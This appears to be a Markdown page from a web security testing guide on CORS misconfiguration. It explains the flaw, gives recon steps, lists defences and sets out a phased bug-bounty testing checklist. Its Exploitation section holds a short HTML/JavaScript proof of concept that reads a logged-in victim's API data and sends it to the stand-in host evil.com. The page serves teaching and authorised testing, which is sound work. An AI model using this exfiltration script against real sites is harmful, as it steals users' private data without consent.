


# CORS Misconfiguration

Exploit overly permissive cross-origin resource sharing.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">



</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

Cross-Origin Resource Sharing (CORS) controls whether browsers allow JavaScript on one origin to read responses from another. Misconfigurations let attacker.com's pages fetch sensitive APIs **with the victim's cookies** and read the result—bypassing same-origin policy for data exfiltration.

Critical headers:

- `Access-Control-Allow-Origin` (ACAO)
- `Access-Control-Allow-Credentials: true` (ACAC)

**Dangerous patterns**

- `ACAO: *` with credentials (browsers block, but mistakes abound)
- Reflecting arbitrary `Origin` header: `ACAO: https://evil.com` when request sends `Origin: https://evil.com`
- Weak prefix/suffix checks: `evil.com` matches `notevil.com` or subdomain tricks
- `ACAO: null` with credentials (sandboxed iframe origins)

Safe CORS is not needed for most same-site APIs; misconfiguration often arises from "fixing" CORS errors during development by allowing all origins.

## Exploitation

**Recon**

1. Identify sensitive JSON endpoints (profile, tokens, admin APIs).
2. Send request with `Origin: https://evil.com` in Burp Repeater.
3. Check if response includes `Access-Control-Allow-Origin: https://evil.com` and `Access-Control-Allow-Credentials: true`.

**Exploit page on attacker server**

```html
<script>
fetch('https://target.com/api/me', {
  credentials: 'include'
}).then(r => r.text()).then(data => {
  fetch('https://evil.com/log?d=' + encodeURIComponent(data));
});
</script>
```

Victim visits attacker page while logged into target; browser sends session cookie; attacker's JS reads response.

**Attack flow**

```
Victim browser → attacker JS cross-origin fetch with cookies → misconfigured CORS reflects Origin → response readable → data exfiltrated
```

**Tools**

- CORScanner, corsy for bulk detection
- Burp CORS scan checks

**Null origin**

Craft sandboxed iframe or `data:` documents that send `Origin: null`.

## Defense & Mitigation

**Default deny**

- Do not reflect `Origin` blindly. Use static allow-list of trusted front-end origins.

**Credentials**

- If `ACAC: true`, ACAO must be explicit origin—never `*`.
- Reject `null` origin unless explicitly required and audited.

**Sensitive endpoints**

- Require authentication tokens in headers (not cookie-only) for high-risk APIs; use `SameSite` cookies.
- CSRF tokens even for CORS-protected JSON when cookies authenticate.

**Review**

- Audit all API gateways and microservices for CORS middleware defaults.
- Separate public APIs from cookie-authenticated internal APIs on different hostnames with strict policies.

**Testing**

- Automated CORS misconfiguration scans in CI for staging environments.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Inventory APIs returning `Access-Control-Allow-*` headers

### Phase 2 — Discovery & Mapping

- [ ] Send cross-origin requests from attacker origin with credentials
- [ ] Test `Origin: null` and subdomain variations
- [ ] Check preflight for sensitive methods (PUT, DELETE)
- [ ] Map endpoints returning PII with permissive CORS

### Phase 3 — Validation & Testing

- [ ] Confirm `Access-Control-Allow-Origin: *` with credentials (invalid but misconfigured)
- [ ] Test reflected Origin without validation
- [ ] Build HTML PoC that exfiltrates JSON to attacker server
- [ ] Validate null origin and regex bypasses

### Phase 4 — Exploitation & Impact Proof

- [ ] Demonstrate reading authenticated API data cross-origin
- [ ] Show impact with realistic attacker page PoC
- [ ] Test write operations if CORS allows dangerous methods
- [ ] Use test accounts only

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Recommend strict Origin allow-list and avoid credentialed wildcard CORS

## Tools

| Tool | Usage |
|------|-------|
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `corsy` | [CORS misconfiguration scan](../../TOOLS_GUIDE.md#corsy) |
| `CORScanner` | [CORS misconfiguration scan](../../TOOLS_GUIDE.md#corsy) |

## Resources

- [PortSwigger CORS](https://portswigger.net/web-security/cors)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
